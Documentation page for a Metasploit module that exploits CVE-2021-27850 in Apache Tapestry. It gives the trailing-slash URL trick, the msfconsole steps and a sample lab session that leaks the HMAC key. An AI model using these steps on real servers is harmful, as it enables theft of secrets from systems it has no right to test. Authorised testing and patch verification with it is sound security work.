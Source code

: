 ## Description

This module exploits CVE-2021-27850 which affects several versions of Apache Tapestry. The versions concerned are at least 5.4.5, 5.5.0, 5.6.2 and 5.7.0. This CVE allows an attacker to leak the source code of a Tapestry server by requesting a particular `.class` file with its name through the url with an extra `/` at the end: http://tapestryhost:8080/assets/something/services/AppModule.class/. Due to this, it is possible to leak the HMAC secret key which is located in `AppModule.class` by default.

## Installation

A vulnerable version of Apache Tapestry can be downloaded from [here](https://downloads.apache.org/tapestry/apache-tapestry-5.7.0-bin.zip). I highly recommend you to follow the Tapestry tutorial [there](https://tapestry.apache.org/tapestry-tutorial.html). It will guide you through all the steps from setting up to launching a demo skeleton of your server.

## Verification Steps

List the steps needed to make sure this thing works

- 1. Start `msfconsole`
- 2. `use auxiliary/gather/cve_2021_27850_apache_tapestry_hmac_key`
- 3. `set RHOST <target_host>` and `set RPORT <target_port>`
- 4. `check` to check if the targeted Tapestry server is vulnerable or not
- 5. `set targeted_class` if you want to target another class than the default one (AppModule.class) 
- 6. `run` the module to exploit the CVE and leak the secret key !

## Options

### RHOSTS

Set the target host.

### RPORT

Set the target port. The default value is `8080` which is the default value used by Tapestry server.

### TARGETED_CLASS

This is not a required option and by default the value is `AppModule.class` which is also the default java class of by Tapestry server where the hmac key is set. But in case you want to target a different java class, it can be done by setting this option with another class name.

## Scenarios

```
msf > use auxiliary/gather/cve_2021_27850_apache_tapestry_hmac_key
msf auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > set rhost 172.16.215.155rhost => 172.16.215.155
msf auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > set targeturi /hotels
targeturi => /hotels
msf auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > check

[+] Java file leak at 172.16.215.155:8080/hotels/assets/app/bf78ed9f/services/AppModule.class/
[+] 172.16.215.155:8080 - The target is vulnerable.
msf auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > run
[*] Running module against 172.16.215.155

[+] Apache Tapestry class file saved at /user/.msf4/loot/20210721173200_default_172.16.215.155_tapestry.AppModu_493080.bin.
[+] HMAC key found: 3e986070-b0d6-4634-93fe-4febebc90529.
[*] Auxiliary module execution completed
```
